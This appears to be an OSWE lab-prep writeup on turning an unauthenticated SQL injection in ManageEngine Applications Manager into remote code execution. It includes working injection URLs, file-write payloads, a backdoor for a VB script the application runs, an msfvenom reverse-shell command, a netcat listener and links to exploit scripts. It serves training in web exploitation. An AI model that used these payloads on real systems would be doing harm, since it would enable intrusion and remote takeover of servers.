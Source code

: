 # ManageEngine SQLI to RCE
In this module we have demonstrated how to discover an unauthenticated SQL injection vulnerability using source code audit in a Java-based web application.
We then showed how to use time-based blind SQL injection payloads along with stack queries in order to exfiltrate database information.
Finally, we developed an exploit that utilized Postgres User Defined Functions and Large Objects to gain a fully functional reverse shell.
## Vulnerability Discovery
By browsing through the ManageEngine’s Application Manager web interface, we can see that most URLs contain the `.do` extension. `.do` extension is typically used in a URL mapping scheme for **compiled Java code**.
Java web applications use a deployment descriptor file named **`web.xml`** to determine how URLs map to servlets, which URLs require authentication, and other information.
### Source Code Analysis
- Search for SQL queries in the source decompiled code in notepad++ using regx: `^.*?query.*?select.*?` (this expression basically says: Look for any line that begins with any number of alphanumeric characters which is followed by the string `query` which is followed by a number of any characters which is followed by the string `select` which is followed by a number of any characters.)
- To reduce a web app’s attack surface, start with the front-end and review HTTP handlers. In Java servlets, these are easily found by their consistent naming pattern, like **`doGet`** and **`doPost`**.
- Enable PostgreSQL logging from its configuration file `postgresql.conf`, search for the string `log_statement`, uncomment the line then set its value to `all` and **restart the service** to apply the changes. Start inspecting the logs `Get-Content C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log\postgresql_13.log -wait -tail 1`
- `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;` by injecting a special character (`;`) into the vulnerable parameter, we can check the logs for any syntax errors to verify if the injection was successful using the following command: `Get-Content postgresql_13.log -tail 100 | Select-String -pattern "syntax error"`
## Exploitation
- PGSQL supports stacked queries `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;select+pg_sleep(10);`
- if the app filters the quotes `'`, PostgreSQL supports `$$` (dollar-quoting) as a replacement for single quotes (`'`) to simplify writing strings that contain literal quotes.
- The attacker tests a SQL injection vulnerability to confirm DBA privileges by using a payload that checks if `current_setting('is_superuser')` returns `"on"`. If true, it triggers a 10-second delay via `pg_sleep(10)`, confirming administrative access. `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+`
- Use SQLI to write to the file system `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+`
- Invistige if any VB scripts are being executed after performaing some action (Creating a Monitor in our case) via ProcMon. If we have ability to write to the file system, we can inject a backdoor into this VB script and it will be executed automatically by the application.
### Accessing the file system
#### Backdoor Crafting
1. **Making the original script one liner**
Match and replace roles in Notepad++ :
- `'.*` (remove the comments)
- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
- `    ` (remove tabs)
- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator)
2. **Create reverse shell**
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```
Match and replace roles in Notepad++ (to make the payload oneliner):

- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
- `    ` (remove tabs)
- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator) **If you copied from the terminal, match on `\n\r` instead of jsut `\n`**
- mach `::` replace with `:` **repeat this multiple times** (remove consecutive conlons and replace it by only one colon)
3. **Final Payload**
  - We will paste out modified msfvenom payload just before `:WScript.Quit(0):`, as: `Echo serviceData:Next:PAYLOAD_HERE:WScript.Quit(0):`
4. **Write the payload to the target file system using the SQLI**
  - Encode the payload into Base64 then URL encode it
  - write it to to `wmiget.vbs` using `copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;`
  - Final SQLI query looks like this:
    ```
    /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program Files (x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
    ```
  - change request method to POST and send the request
5. **Open a Netcat listener**
  ```
nc -nlvp 1337
  ```
**Exploitation Script:** https://github.com/solimanalmansor/OSWE-Prep/blob/main/OSWE-Labs/ManageEngine/windows_rce.py
### Large Object Reverse Shell
Keep in mind that working with large objects only works on the DBA level.Non-administrative users would not have the required permissionsfor these actions.

**Exploitaion Script:** https://github.com/solimanalmansor/OSWE-Prep/blob/main/OSWE-Labs/ManageEngine/pg_lo_injection_rce.py
